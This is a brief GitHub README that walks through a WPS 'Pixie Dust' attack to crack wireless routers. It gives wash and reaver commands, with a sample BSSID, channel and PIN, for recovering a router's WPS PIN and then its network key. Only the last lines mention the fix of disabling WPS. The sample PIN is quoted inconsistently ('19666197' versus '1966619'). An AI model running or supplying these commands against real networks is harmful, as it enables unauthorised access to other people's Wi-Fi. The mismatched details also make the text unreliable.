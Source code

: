 (https://github.com/KKCyberExpert/Pixie-Dust-Attack----Crack-Wireless-Routers/assets/153437848/f4659278-5174-4410-86bf-3a79b17b2165)# Pixie-Dust-Attack----Crack-Wireless-Routers
Pixie Dust Attack -- Crack Wireless Routers



Pixie Dust Attack
As we told we need a WiFi adapter that supports monitor mode. The first thing we need to do put our interface in the monitor mode. We can check the list of interfaces by using following command:

iwconfig

sudo wash -i wlan1mon -s

We need to use the command as this   ---->
sudo reaver -i <monitor-mode-interface> -b <target-BSSID> -d 7 -c <No. of channel> -K 1 --mac -vv

sudo reaver -i wlan1mon -b <Your -BSSID> -d 7 -c <Channel> -K 1 --mac -vv   ---------> example --------->  sudo reaver -i wlan1mon -b 40:C8:CB:05:4D:19 -d 7 -c 6 -K 1 --mac -vv


After collecting the pin we can easily get the WPS key by simply removing -K flag and using -p flag following the noted PIN.

An example command will be like following: -------->    sudo reaver -i wlan1mon -b 40:C8:CB:05:4D:19 -vvNwL -c 1 -p 19666197


Here we assume that 1966619 is our noted pin.

This method is very very effective if the target still using old WiFi router. This attack goes back to early 2010s and most of the vendors have already patched this issue.

This vulnerability can be patched by turning off WPS feature. The router vendors then uses mac blocking for too much WPS requests. So, it doesn't mean that we can get WPS PIN of every WPS enabled routers.
